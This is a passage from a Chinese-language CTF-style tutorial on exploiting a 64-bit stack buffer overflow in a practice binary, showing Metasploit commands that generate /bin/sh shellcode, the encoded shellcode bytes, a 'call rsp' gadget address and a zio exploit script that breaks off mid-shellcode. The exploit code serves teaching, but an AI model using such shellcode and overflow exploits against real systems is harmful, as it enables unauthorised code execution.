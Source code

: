 可以看出从第四十个字节开始的八个字节就会覆盖返回地址

5 写exp

首先我们需要一个shellcode,这可以通过msf生成 生成命令如下

```
show payload   
use linux/x64/exec
set cmd /bin/sh
generate -t py -b "/x00"

```

即可得到shellcode

```
# linux/x64/exec - 87 bytes
# http://www.metasploit.com
# Encoder: x64/xor
# VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
# PrependSetreuid=false, PrependSetuid=false, 
# PrependSetresgid=false, PrependSetregid=false, 
# PrependSetgid=false, PrependChrootBreak=false, 
# AppendExit=false, CMD=/bin/sh
buf =  ""
buf += "\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\xab\xb5\xd9\xba\x45\x0a\xfd"
buf += "\x44\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\xc1\x8e\x81\x23\x0d\xb1\xd2\x26\xc2\xdb\xf6\xc9\x2d"
buf += "\x0a\xae\x0c\x22\x52\xb1\x97\x26\x0a\xfd\x0c\x22\x53"
buf += "\x8b\x52\x4d\x0a\xfd\x44\x84\xd7\xb0\xd4\x6a\x79\x95"
buf += "\x44\xfd\xe2\x91\x33\xa3\x05\xf8\x44"

```

然后我们还需要一个跳板作为返回地址 peda就有这种功能

```
jmpcall rsp

```

![enter image description here](http://drops.javaweb.org/uploads/images/e867211b329db5e53e284f17d4312df68aecfc78.jpg)

我们就采用第一个地址, 注意64位系统,和little endian

然后我们使用zio写exp

```
from zio import *

io = zio('./pwn1')
# io = zio(('127.0.0.1', 1234))

io.read_until('overflow!')

pad = 'a' * 40

# 0x 43 68 7d : call rsp
jmpAddr = '\x7d\x68\x43\x00\x00\x00\x00\x00'

shellcode =  ""
shellcode += "\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05"
shellcode += "\xef\xff\xff\xff\x48\xbb\xab\xb5\xd9\xba\x45\x0a\xfd"
shellcode += "\x44\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
shellcode += "\xc1\x8e\x81\x23\x0d\xb1\xd2\x26\xc2\xdb\xf6\xc9\x2d"
shellcode += "\x0a\xae\x0c\x22\x52\xb1\x97\x26\x0a\xfd\x0c\x22\x53"
shellcode += "\x8b\x52\x4d\x0a\xfd\x44\x84\xd7\xb0\xd4\x6a\x79\x95"
```